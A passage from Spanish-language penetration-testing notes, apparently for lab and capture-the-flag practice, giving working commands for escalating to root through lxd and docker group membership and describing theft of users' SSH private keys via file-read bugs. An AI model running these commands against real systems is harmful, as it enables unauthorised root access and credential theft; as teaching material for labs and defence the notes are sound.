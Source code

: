 pasamos el archivo **.tar** generado a la victima y ejecutamos lo siguiente:

```bash
# import the image
lxc image import ./alpine.tar.gz --alias myimage

# run the image
lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

# interact with the container
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

[https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)

### PRACTICA

GTFOBins con alphine y montura:

[https://gtfobins.github.io/gtfobins/docker/](https://gtfobins.github.io/gtfobins/docker/)

```bash
sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```


- [Maquina Olympus HTB](https://www.youtube.com/watch?v=vMfv7aUj9ak&list=PLlb2ZjHtNkphBtATHv-CZQ-qABlVhINx9&index=2)
- [https://tryhackme.com/room/chillhack](https://tryhackme.com/room/chillhack) (docker)
- [https://tryhackme.com/room/gamingserver](https://tryhackme.com/room/gamingserver) (lxd)

## SSH

### LECTURA DE ID_RSA

Es posible que con un LFI, XSS, un SQLi u otro ataque puedas leer el id_rsa de un usuario del servidor. O simplemente por FTP.

puedes conectarte a SSH con usuario y contraseña o proporcionando la llave privada. Normalmente cuando se crean las llaves ssh con el comando:

```
ssh-keygen
```

Esto crea dos llaves RSA una publica y otra privada:

- id_rsa: clave privada.
- id_rsa.pub: clave publica.

Y normalmente se puede encontrar una o ambas en las siguientes rutas:
